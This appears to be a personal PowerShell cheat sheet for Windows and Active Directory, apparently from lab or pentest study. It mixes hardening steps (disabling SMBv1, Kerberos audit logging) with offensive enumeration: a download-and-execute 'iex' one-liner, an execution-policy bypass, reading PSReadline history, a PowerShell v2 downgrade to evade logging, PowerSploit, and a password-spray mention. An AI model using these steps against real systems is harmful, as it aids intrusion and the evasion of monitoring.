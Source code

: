 ## disable SMBv1 "Eternal Blue"
### check
```powershell
Get-SmbServerConfiguration | Select EnableSMB1Protocol
```
### disable
```powershell
Set-SmbServerConfiguration -EnableSMB1Protocol $false
```
### check for service principal names
```powershell
setspn -L <hostname>
Get-ADUser -Filter {ServicePrincipalName -ne '$null'} -Properties ServicePrincipalName
```
### Deregister spn
```powershell
setspn -d <serviceClass/Host:Port> <AccountName>
```
### Backup DNS

```powershell
Export-DnsServerZone -Name <zonename> -filename <zonename.dns.bak>
```
- will be stored in C:\Windows\System32\dns

## add local computer to allow psremoting via WSMAN works on powershell 7 or core
```powershell
Set-Item WSMan:\localhost\client\trustedhosts -Value '192.168.50.101,192.168.50.100,172.21.0.11,172.21.0.222,172.21.0.78'

```
```powershell
New-PSSession -name 'test' -ComputerName '192.168.50.101'
Enter-PSSession -name 'test'
$x = New-PSSession -name 'test' -ComputerName '192.168.50.101' -Credential 'WWE\Administrator'
Invoke-Command -Session $x -Computername '192.168.50.101' -Scriptblock {whoami}
```

## map network drives
```powershell
New-PSDrive -Name X -PSProvider FileSystem -Root \\192.168.220.80\backups -Credential 'coastbackup' -Persist
```
### setting up kerberos logging command line
- check gpos for domain
```powershell
Get-GPO -All -Domain "sales.contoso.com"
```
- easier to do through group policy graphically, but we can update the audit policy directly

```powershell
Set-SystemAuditPolicy -AccountLogon 'Kerberos Authentication Service' -Value SuccessAndFailure -Verbose
Set-SystemAuditPolicy -AccountLogon 'Kerberos Service Ticket Operations' -Value SuccessAndFailure -Verbose

```
- trying a password spray attack, lets see if logs show up


## good enumeration commands
```powershell
hostname
[System.Environment]::OSVersion.Version
wmic qfe get Caption,Description,HotFixID,InstalledOn
ipconfig /all
set
```


```cmd
echo %USERDOMAIN%
echo %logonserver%
```

## powershell enumeration
```powershell
Get-ExecutionPolicy -List
Set-ExecutionPolicy Bypass -Scope Process
Get-Content C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
Get-ChildItem Env: | ft Key,Value
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"

```
- Powershell event logging was introduced as a feature with Powershell 3.0 and forward. With that in mind, we can attempt to call Powershell version 2.0 or older. If successful, our actions from the shell will not be logged in Event Viewer. 
```powershell
powershell.exe -version 2
```

## powersploit/powerview
- add folder to path where powershell modules are store C:\Users\Documents\WindowsPowerShell\Modules
- Import-Module Powersploit
- dot source powerview.ps1 . .\powerview.ps1
- see documentation for available commands
[powersploit](https://github.com/PowerShellMafia/PowerSploit)

- see if anyone else is logged in
```powershell
qwinsta
```
## wmi enumeration
```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn 	#Prints the patch level and description of the Hotfixes applied
wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List #Displays basic host information to include any attributes within the list
wmic process list /format:list 	#A listing of all processes on host
wmic ntdomain list /format:list 	#Displays information about the Domain and Domain Controllers
wmic useraccount list /format:list 	#Displays information about all local accounts and any domain accounts that have logged into the device
wmic group list /format:list 	#Information about all local groups
wmic sysaccount list /format:list
```
## dsquery
- gives full path to ldap distiguished names for objects, users, groups!
```powershell
dsquery user
dsquery computer
dsquery group
dsquery * -filter "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.2.803:=64))" -attrs SamAccountName 
distiguishedName 
dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName
```
![Alt text](image.png)
- 1.2.840.113556.1.4.803 matches exactly
- 1.2.840.113556.1.4.804 matches if any are a match, for multiple entries
- 1.2.840.113556.1.4.1941 applies to Distiguished names
